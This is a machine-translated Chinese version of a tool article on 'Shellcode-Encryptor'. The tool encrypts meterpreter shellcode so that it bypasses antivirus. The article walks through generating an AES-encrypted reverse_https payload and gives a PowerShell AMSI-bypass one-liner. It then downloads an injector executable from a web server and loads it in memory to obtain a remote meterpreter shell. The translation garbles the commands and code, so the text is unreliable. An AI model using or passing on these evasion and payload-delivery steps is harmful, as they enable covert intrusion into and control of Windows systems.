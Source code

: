 # 外壳代码加密器:一个简单的外壳代码加密器/解密器/执行器来绕过反病毒

> 原文：<https://kalilinuxtutorials.com/shellcode-encryptor/>

[![](img//52d6e63f326dcbce49e3cd93590f78bd.png)](https://blogger.googleusercontent.com/img/a/AVvXsEhsBOnh4DsI0O9JNnFfL1IUk3nvIRc7dqHaWmlRhrE8IpfFJPh9AGs5z0UCQzymizGIc1lZQd8gpPocQryAAt5OAr2q82CvTgCUMdPjYeC5gIe6bIxDmkR7Z8ApjsZ8px-eo7p3Vb4RsP8VqHvHCkwtiqyHoFRJitnO_ryMNT6mBja1QTLBkNG05r1L=s728)

外壳代码加密器是一个简单的外壳代码加密器/解密器/执行器来绕过反病毒。

**注意:**我已经完全重做了创建旁路的工作流程，我发现使用 PowerShell 将二进制文件注入内存是最有效的方法。

**目的**

生成包含 base64 编码、AES 加密外壳代码的. Net 二进制文件，该文件将绕过防病毒程序在 Windows 目标上执行。

**指令**

使用`**meterpreter_encryptor.py**`创建加密的 base64 外壳代码:

**根@kali:~#。/meter preter _ encryptor . py-p windows/x64/meter preter/reverse _ https-I 192 . 168 . 1 . 228-l 443-f b64
[+]生成 MSFVENOM 有效负载…
[-]未选择平台，选择 MSF::module::platform::windows from 有效负载
[-]未选择 arch，选择 arch: x64 from 有效负载
找到兼容的编码/msf.bin
[+]加密有效负载，key = fjlmjichnq 4 K6 cjncrplqug 1 HW 4 icmec…
base 64 输出:
szkmiiitri 5 hql 2y xtbgjq91 QQ 0 fuqgfr 7 yikt N2 n 1 iz 8 vq3q/briytjbb 7 nkrssjm 25 srqh+r9 whgnstv 8**

获取密钥和外壳代码，并将其插入 ProcessInjector.cs

**//解密 base64 payload
string payload = " szk MII[etc…]"；
string key = " fjlmjiegnq 4k 6 cjncrplqug 1g HW 4 IC mec "；**

将 C#代码编译成可执行文件(如`**metInject.exe**`)，并通过 web 服务器提供。

将可执行文件注入远程 PowerShell 进程:

**AMSI 绕道**

**$ a =[Ref]. assembly . gettypes()；ForEach($ b in $ a){ if($ b . Name-like "*iutils "){ $ c = $ b } }；$d = $c.GetFields('非公共、静态')；ForEach($ e in $ d){ if($ e . Name-like "*it failed "){ $ f = $ e } }；$f.SetValue($null，$ true)
$ bytes =(Invoke-WebRequest " http://192 . 168 . 1 . 228/metin jet . exe ")。内容；
$assembly = [System。Reflection.Assembly]::Load(字节)；
$entryPointMethod = $assembly。GetType(' process inject。程序'，[反思。binding flags]“Public，NonPublic”)。GetMethod('Main '，[Reflection。BindingFlags]“静态、公共、非公共”)；
$entryPointMethod。Invoke($null，(，)；**

希望你会有一个漂亮的米特尔外壳。

**求助**

**。/meterpreter_encryptor.py -h
用法:meter preter _ encryptor . py[-h][-l LPORT][-I LHOST][-m PAYLOAD][-k KEY][-e ENCODER][-f FORMAT]
可选参数:
-h，–help 显示此帮助消息并退出
-l LPORT，–l port LPORT
msfconsole 正在侦听的本地端口。
-i LHOST，–LHOST LHOST
MSF console 正在侦听的本地主机。
-p PAYLOAD，–PAYLOAD PAYLOAD
在 msfvenom 中生成的有效负载。
-m 方法，–METHOD 方法
要使用的方法:线程/委托。
-k KEY，–KEY KEY 加密密钥(32 个字符)。
-e 编码器，–ENCODER 编码器
抄表员编码器。
-f 格式，–格式格式
输出的格式。**

**反病毒扫描结果**

2021 年 3 月 10 日使用 antiscan.me 扫描了二进制文件。

![](img//4d873b3d3cace37cbb7185e35e4c83f5.png)[**Download**](https://github.com/plackyhacker/Shellcode-Encryptor)